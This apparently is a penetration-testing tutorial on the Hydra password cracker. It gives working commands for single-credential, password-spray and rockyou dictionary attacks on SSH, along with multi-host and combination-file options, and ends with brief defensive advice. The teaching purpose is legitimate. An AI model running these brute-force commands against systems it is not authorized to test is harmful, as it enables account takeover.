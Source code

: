 ```yaml
---
title: "How to Use Hydra to Hack Passwords – Penetration Testing Tutorial"
description: "Learn more about Hydra"
icon: "code"
draft: false
---
```


## Introduction

Hydra is a powerful brute-forcing tool used by penetration testers and ethical hackers to crack passwords of network services. It can perform rapid dictionary attacks against more than 50 protocols, including Telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services. Developed by the hacker group "The Hacker’s Choice," Hydra was first released in 2000 as a proof-of-concept tool for attacking network logon services.

Unlike sequential brute-forcing tools, Hydra is a parallelized login cracker, allowing multiple connections simultaneously, significantly reducing the time required to crack a password.

This section will guide you through using Hydra, covering installation, common attack types, and essential flags and options. Note: This tutorial is for educational purposes only. Always obtain permission before scanning, brute-forcing, or exploiting any system.

## How to Install Hydra

### Pre-installed Systems

Hydra comes pre-installed with Kali Linux and Parrot OS. If you are using one of these, you can start working with Hydra immediately.

### Ubuntu

Use the `apt` package manager to install Hydra:

```sh
$ sudo apt install hydra
```

### macOS

Hydra is available under Homebrew:

```sh
$ brew install hydra
```

### Windows

It's recommended to use a virtual box and install Linux. Using Windows for professional penetration testing is not advisable.

## How to Work with Hydra

### Starting with Hydra

Begin by exploring the help command to understand Hydra's options:

```sh
$ hydra -h
```

This command provides a list of flags and options available in Hydra.

<a target='_blank'><img src='https://i.postimg.cc/1599HgmJ/image.png' border='0' alt='image'/></a>

### Single Username/Password Attack

To perform a simple attack with known username and password:

```bash
$ hydra -l <username> -p <password> <server> <service>
```

Example:

Assume you had a user named `admin`, and password named `admin` hosted at `10.10.137.50`. (Make sure you have a service running at a hosted address and can connect via ssh).

```sh
$ hydra -l admin -p admin 10.10.137.50 ssh
```

### Password Spraying Attack

To perform a password spray attack where you test a known password against multiple usernames (in a case where you don't know exactly who the user is):

1. Create a file called `users.txt` with the following content:

```bash
root
admin
user
tech
steve
richard
```
2. Run the password spray attack:
   We are going to test the password "admin".
```sh
   hydra -L users.txt -p admin 10.10.137.50 ssh
```

### Dictionary Attack

To perform a dictionary attack using a list of passwords:

1. Use the RockYou wordlist, typically found at `/usr/share/wordlists/rockyou.txt` on Kali Linux or on ([github](https://github.com/teamstealthsec/wordlists)).
2. Run the dictionary attack:

```sh
$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

### Verbosity and Debugging

Hydra can be awfully quiet when running large brute-force attacks. If we have to make sure Hydra is doing what it is expected to do, there are two flags we can use.

The verbosity (-v) flag will show us the login attempt for each username/password combination. This can be a bit much when there are a lot of combinations to go through, but if it is something you need, we can use the verbosity flag.

#### Verbosity Flag

To show each login attempt:

```sh
$ hydra -v -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

#### Debug Flag

To gather more detailed information:

```sh
$ hydra -d -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

### Saving Results

To save the results of your attack:

```sh
$ hydra -l <username> -p <password> <ip> <service> -o <file.txt>
```

## Additional Flags and Formats

### Service Specification

Specify the service with the IP address:

```sh
$ hydra -l <username> -p <password> ssh://<ip>
```

### Resuming Attacks

Resume a session if Hydra exits during an attack:

```sh
$ hydra -R
```

### Custom Ports

Specify custom ports if services run on non-default ports:

```sh
$ hydra -l <username> -p <password> <ip> <service> -s <port>
```

### Attacking Multiple Hosts

Attack multiple hosts using a file containing a list of IP addresses:

```sh
$ hydra -l <username> -p <password> -M <host_file.txt> <service>
```

### Targeted Combinations

Use specific username/password combinations:

1. Create a file `combinations.txt` with the format:
```txt
username1:password1
username2:password2
username3:password3
```
2. Run the command:
```sh
$ hydra -C combinations.txt <ip> <service>
```

## How to Defend Against Hydra

### Strong Passwords

Use strong passwords to make brute-force attacks difficult.

### Password Policies

Enforce policies to change passwords regularly.

### Limiting Authorization Attempts

Lock accounts after a few failed login attempts to prevent brute-force attacks.

### Use Re-captcha

Implement re-captcha to prevent automated brute-force attacks.

## Summary

Hydra is a fast, flexible network brute-forcing tool essential for penetration testing. With its modular architecture and support for parallelization, Hydra can be extended to include new protocols and services easily. Always use Hydra responsibly and ethically.